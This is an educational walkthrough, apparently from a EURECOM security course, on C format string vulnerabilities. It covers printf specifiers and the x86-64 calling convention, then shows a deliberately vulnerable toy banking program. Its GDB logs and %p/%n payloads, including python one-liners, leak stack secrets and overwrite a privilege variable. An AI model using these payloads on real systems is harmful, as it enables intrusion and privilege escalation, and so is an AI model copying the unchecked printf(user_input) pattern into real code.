


As part of the course’s challenges of System and Network Security Fall 2025 at EURECOM by professor Aurelien Francillon.
The design of systems most of the times is hard since it not only involves performance but also security, so the developers have to utilize secure tools, in the case of software developer, they have to take secure libraries. Otherwise, the system is exposed to several types of attacks like race conditions, User-After-Free (UAF), the different versions of the infamous overflows and underflows, and many more. One that is known by many, but many do not know its potential is the format string.
As compiled C codes removes data type metadata, printf uses specifiers like %d, %s, and more to know the types of argumets which were passed. printf as variadic function accepts a variable number of inputs and relies in such specifiers as blueprint to determine the number of bytes to read to the register or memory and how to interpret them to display.
/////////////////////////////////
Code
/////////////////////////////////
#include <stdio.h>
int main(int argc, char *argv[]) {
if (argc < 2) {
printf("[MODE OF USE] ./this_code input\n");
return 0;
}
printf("%s\n", argv[1]);
return 0;
}
/////////////////////////////////
Result
/////////////////////////////////
$ ./format_string_0 123
123
$ ./format_string_0 turbio
turbio
$ ./format_string_0 %x
%x
As the end user defined the specifier to display in the right argument, it prints whatever the end user sends as input. The next table indicate some types of specifiers.
| Specifier | Data type | Description |
| %s | char * | String (character array) |
| %d | int | Signed integer |
| %u | unsigned int | Unsigned decimal integer |
| %f | float or double | Decimal floating-point |
| %p | void * | Pointer address |
| %n | int * | Write back |
It also exists type widths which are written before the specifier like a prefix. It determines a specifc memory size of the data type.
| Type width | Description | Format |
| h | Makes integer short | %hd(short int) or %hu (unsigned short integer) |
| hh | Makes integer char | %hhd(signed char) or %hhu(unsigned char) |
| l | Makes integer or float double | %ld(long int) or %lf(double) |
The next code is a nice example of how format specifier with a prefix works and it can truncate values. It utilizes %hu which takes the integer and makes it short (16 bites).
/////////////////////////////////
Code
/////////////////////////////////
#include <stdio.h>
#include <stdlib.h>
int main (int argc, char* argv[]){
if(argc < 2){
printf("[MODE OF USE] ./this_code input");
return 0;
}
int aux0 = atoi(argv[1]);
printf("%hu", aux0);
return 0;
}
/////////////////////////////////
Result
/////////////////////////////////
$ ./format_string_0 120000
54464
In binary:
120000 = 1 1101 0100 1100 0000
54464 = 1101 0100 1100 0000 <--- Notice that it only displayed 16 bits which involved in not considering the most significant bit in the left.
The last example demonstrates how useful are the specifier and the prefix together by defining the data type to display and its size. Notice that it exists many different types de specifiers and prefixes, but the reader can understand the potential of this sort of attacks by knowing the presented ones.
ABI stands for Application Binary Interface which defines how the registers, data representation, and the function calling convention of a compiled piece of binary software will work. This convention must ensure the compability at binary level in the system, so our created code, the shared libraries, and the kernel can communicate one another without corrupting the memory or crashing the CPU.
The most popular ABIs are System V AMD64 for almost every non-Windows OS running on Intel and AMD 64-bit processors including macOS, Windows x64, AAPCS for ARM processors, and RISC-V. The ABIs for 32-bit was through by IA-32 System V which were cdecl for Linux, stdcall for Win32 API, and fastcall.

The caller parameters are stored in callee stack in the save order as it was stored. Meaning that it is stacked first the RDI, then RSI, and so on. This happens if it was compiled with no optimization (O0), but if it was optimization (O2), the registers are directly used by the callee.
The code shown below contains two interesting assets: one is the secret to leak which will be in the stack of the program and it was defined as "secret_key", it will be never used, but it was declared so the reader can see the potential of format string attacks. The second asset is to trigger a function by designed it is not supposed to be triggered.
/////////////////////////////////
Code
/////////////////////////////////
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main (int argc, char* argv[]){
unsigned int user_selection;
char storage_user[128] = {0};
long storage_key[32] = {0};
int number_user = 0;
long secret_key_for_user;
char aux_buf[512];
int privilege_level = 2;
int *user_privilege = &privilege_level;
/*Privileges:
* 0 & 1- Customer
* 2 - Bank employe
* 3 - Manager
* 4 - Director
* 5 - Owner
*/
printf("Welcome to the most secure code!!!!\n");
while(1){
printf("Select an activity to do:\n");
printf("[1] Create new virtual bank account\n");
printf("[2] Get privilege in the APP\n");
printf("[3] Exit\n");
printf("Your option: ");
scanf("%d", &user_selection);
while(getchar() != '\n');
switch(user_selection){
case 1:
secret_key_for_user = random();
printf("Name of new user to register: ");
fgets(aux_buf, sizeof(aux_buf), stdin);
strncpy(&storage_user[number_user * 32], aux_buf, 31);
storage_key[number_user] = secret_key_for_user;
printf(aux_buf);
number_user++;
break;
case 2:
if(*user_privilege == 3){
printf("Welcome to manager mode!!\n");
}
else if(*user_privilege == 4){
printf("Welcome to director mode!!\n");
}
else if(*user_privilege == 5){
printf("Welcome to owner mode!!\n");
}
else{
printf("Sorry, ask permission to your manager for going to manager mode\n");
}
break;
case 3:
exit(0);
break;
default:
printf("Select a valid choice\n");
break;
}
}
return 0;
}
It is quite evident that this code is vulnerable to format string exploit since it directly takes the user input as the format argument. The input is not being validated, so it has no protection. Meaning that the end user has the oportunity of sending as input anything, even specifiers.
This simple code allows the possibility of adding new users by selecting option 1. Each user has its own generated key secret with random function, but not shown in the output as it has to remain secret even for the new user (NOT USE THAT FUNCTION AND LIBRARY FOR REAL CRYPTOGRAPHIC APPLICATION, this is only to demonstrate the vulnerability). They are stored in the vectors storage_user and storage_key whose defined position in the code indicates that they will be in the stack. As the assets (name and key) will be in the stack, it can be easily leaked with format string, the ones for reading in the stack are %x and %p whose difference is the size of leaked data, 4 and 8 bytes respectively.
In the next scenario, the APP user (let's say a bank worker) who is supposed only to create new users, but not to know their secret keys, creates two users one for Boris (in ASCII 0x426F726973) and another for Lolo (in ASCII 0x4C6F6C6F). However, the bank user knows a little bit about format string attacks so sent a set of %p just to see if the APP is well-secured as it claims.
$ ./format_string_most_secure_code
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: Boris
Boris
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: Lolo
Lolo
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p %p %p %p
0x7ffdafd13070 0x643c9869 0x10 0x1f (nil) 0x7ffdafd13398 0x1573fd1d4 0x200000001 0x643c9869
0x6b8b4567 0x327b23c6 0x643c9869 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)
(nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)
(nil) (nil) (nil) (nil) 0xa7369726f42 (nil) (nil) (nil) 0xa6f6c6f4c (nil) (nil) (nil)
0x7025207025207025 0x2520702520702520 0x2070252070252070 0x25207025207025 (nil) (nil) (nil)
(nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0xa702520
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Everything normal until the bank worker sent the group of %p, some weird data were printed. It is visible that after the nulls (represented as nil), the ASCII data representing Boris and Lolo are there, but in little-endian format 0xa7369726f42 and 0xa6f6c6f4c, respectively.
Nice, the names were leaked, but what about the secret keys? It is just a matter of relating source code and ABI to dumped memory. Before the vulnerability of format string printf(aux_buf), the last access to stack is just right before with storage_key[number_user] = secret_key_for_user, and remember that based on this ABI the it first prints RSI, RDX, RCX, R8, R9, and then most recent value in the stack. It means that the secret keys most likely be right after the leaking the registers.
If this code is analyzed through GDB, and a breakpoint is just set before the printf(aux_buf), the registers and stack values are:
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: Boris
(gdb) p/x secret_key_for_user
$4 = 0x6b8b4567
(gdb) x/10gx $rsp
0x7fffffffd5c0: 0x00007fffffffda98 0x00000001f7ffca50
0x7fffffffd5d0: 0x00000001f7fc38d8 0x0000000000000002
0x7fffffffd5e0: 0x00007fffffffd5d8 0x000000006b8b4567
0x7fffffffd5f0: 0x000000006b8b4567 0x0000000000000000
0x7fffffffd600: 0x0000000000000000 0x0000000000000000
(gdb) c
Your option: 1
Name of new user to register: Lolo
Breakpoint 3, 0x000055555555547e in main (argc=1, argv=0x7fffffffda98) at format_string_most_secure_code.c:36
(gdb) p/x secret_key_for_user
$5 = 0x327b23c6
(gdb) x/10gx $rsp
0x7fffffffd5c0: 0x00007fffffffda98 0x00000001f7ffca50
0x7fffffffd5d0: 0x00000001f7fc38d8 0x0000000100000002
0x7fffffffd5e0: 0x00007fffffffd5d8 0x00000000327b23c6
0x7fffffffd5f0: 0x000000006b8b4567 0x00000000327b23c6
0x7fffffffd600: 0x0000000000000000 0x0000000000000000
With this debug log, we can confirm that the secret keys is near the top of the stack. So they can be leaked even faster than the names. Something to add is that it breaks ASLR (Address Space Layout Randomization). This countermeasure in simple words protects the programs' data by randomly shuffling their addresses, so every time a program is executed or re-executed, the new addresses are randomly assigned. However, as this exploit prints data about the program, there may be addresses in the leaked registers, but if not, not worry that the stack always has stored addresses.
What is happenning under the hood?

Based on the man page of printf, it is specified that int printf(const char *format, ...); and in the way it was defined in the most_secure_code was printf(aux_buf); meaning that aux_buf is format argument. Do you remember the System V AMD64 ABI? Well the printf considers the first argument to be in RDI which will be the group of %p, but the function won't print them, instead it will read the set of %p. When printf sees %p, it will assume that argument #2 has to be printed in form of pointer, and based on ABI that argument is in RSI, so it will print whatever is stored in that register. The same happens with the rest of registers that are part of the ABI, until it arrives into the stack (after argument #6).
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
%p %p %p %p %p %p
****************************************
Break at B+> 0x55555555547e call 0x5555555550e0
****************************************
(gdb) i r rdi rsi rdx rcx r8 r9
rdi 0x7fffffffd770 140737488344944
rsi 0x7fffffffd770 140737488344944
rdx 0x6b8b4567 1804289383
rcx 0x10 16
r8 0x1f 31
r9 0x0 0
(gdb) x/20gx $rsp
0x7fffffffd5c0: 0x00007fffffffda98 0x00000001f7ffca50
0x7fffffffd5d0: 0x00000001f7fc38d8 0x0000000000000002
0x7fffffffd5e0: 0x00007fffffffd5d8 0x000000006b8b4567
0x7fffffffd5f0: 0x000000006b8b4567 0x0000000000000000
0x7fffffffd600: 0x0000000000000000 0x0000000000000000
****************************************
Continue
****************************************
(gdb) c
Continuing.
0x7fffffffd770 0x6b8b4567 0x10 0x1f (nil) 0x7fffffffda98 0x1f7ffca50 0x1f7fc38d8 0x2
0x7fffffffd5d8 0x6b8b4567 0x6b8b4567 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)
(nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil)
(nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x25207025207025 (nil) (nil) (nil) (nil) (nil)
(nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070
So far only the %p and %x have been explained, now it is turn of %n. In the way that printf handles with %n is like a pointer dereference. Then the slot specified in the character_count%slot$n is where printf will assume the value of that slot as the address to write the character count. In short words that printf will write in the address specified in the slot you wrote, so make sure that slot contains a valid writable address or segmentation fault will appear. Maybe going to the example can be explained easier, see again the victim C code in the case 2. It will validate the privileges of the user which was defined with employe's one, based on that code it is not possible to change the privilege level, but the format string attack changes the rule.
Before to write it is required to find if one of the ABI registers or the stack contains the address of the variable you want to change. If we go again through GDB, we could see if the address of privilege_level is in the stack:
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 2
Incorrect password
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: 1
Name of new user to register: Boris
Breakpoint 1, main (argc=1, argv=0x7fffffffda98) at format_string_most_secure_code.c:37
(gdb) p/x &privilege_level
$8 = 0x7fffffffd5d8
(gdb) x/10gx $rsp
0x7fffffffd5c0: 0x00007fffffffda98 0x00000001f7ffca50
0x7fffffffd5d0: 0x00000001f7fc38d8 0x0000000000000002
0x7fffffffd5e0: 0x00007fffffffd5d8 0x000000006b8b4567
0x7fffffffd5f0: 0x000000006b8b4567 0x0000000000000000
0x7fffffffd600: 0x0000000000000000 0x0000000000000000
Nice, it is in the stack in the address 0x7fffffffd5e0, but in terms of slots number, it is represented with the 10th slot, because rsi rdx rcx r8 r9 takes the first five, and from the top of the stack until the target address is another five, so ten. And we can corroborate it by using %slot$specifier which is %10$p.
Your option: 1
Name of new user to register: %10$p
Breakpoint 3, 0x000055555555547e in main (argc=1, argv=0x7fffffffda98) at format_string_most_secure_code.c:36
(gdb) c
Continuing.
0x7fffffffd5d8
(gdb) x/10gx $rsp
0x7fffffffd5c0: 0x00007fffffffda98 0x00000001f7ffca50
0x7fffffffd5d0: 0x00000001f7fc38d8 0x0000000000000002 <--- Pointing here
0x7fffffffd5e0: 0x00007fffffffd5d8 0x000000006b8b4567
0x7fffffffd5f0: 0x000000006b8b4567 0x0000000000000000
0x7fffffffd600: 0x0000000000000000 0x0000000000000000
Breakpoint 1, main (argc=1, argv=0x7fffffffda98) at format_string_most_secure_code.c:37
(gdb) p/x &privilege_level
$9 = 0x7fffffffd5d8
That is the write slot that it is pointing to 0x7fffffffd5d8 which has 0x0000000000000002 which is in the 9th slot and its value is two as that is meant for employes. So we are ready to write with %n specifier and see those changes in the stack user_privilege, but let's going out GDB.
Let's create a binary file that gathers all the steps to handle the program. The sequence for this scenario is:
- Option 2 just to confirm that we have the default privilege.
- Option 1 to leak the level privilege with %9$p which we should see a 0x2 because that is the default level of the worker.
- Option 1 but in this case is to write by using the slot 10 with char_counter%10$n. Like x10\x10\x10%10$n to write a 3 in slot 10.
- Option 1 to see the new value of privilege level with %9$p.
- Escalate privileges with option 2.
The binary file is created in this way; notice that all the steps described in previous paragraph are here but in a file.
$ python3 -c 'import sys; sys.stdout.buffer.write(b"2\n1\n\%9$p\n1\n\x10\x10\x10%10$n\n1\n\%9$p\n2\n")' > input.bin
$ ./format_string_most_secure_code < input.bin
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Sorry, ask permission to your manager for going to manager mode
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register: \0x2
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register:
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register: \0x200000003
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Welcome to manager mode!! <------ We did it!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
But I changed of opinion, I am greedy and I want owner privileges, so I add two more characters in the %n format, so the result should be 5.
$ python3 -c 'import sys; sys.stdout.buffer.write(b"2\n1\n\%9$p\n1\n\x10\x10\x10\x10\x10%10$n\n1\n\%9$p\n2\n")' > input_owner.bin
$ ./format_string_most_secure_code < input_owner.bin
Welcome to the most secure code!!!!
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Sorry, ask permission to your manager for going to manager mode
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register: \0x2
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register:
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Name of new user to register: \0x200000005
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit
Your option: Welcome to owner mode!! <----- We did it better
Select an activity to do:
[1] Create new virtual bank account
[2] Get privilege in the APP
[3] Exit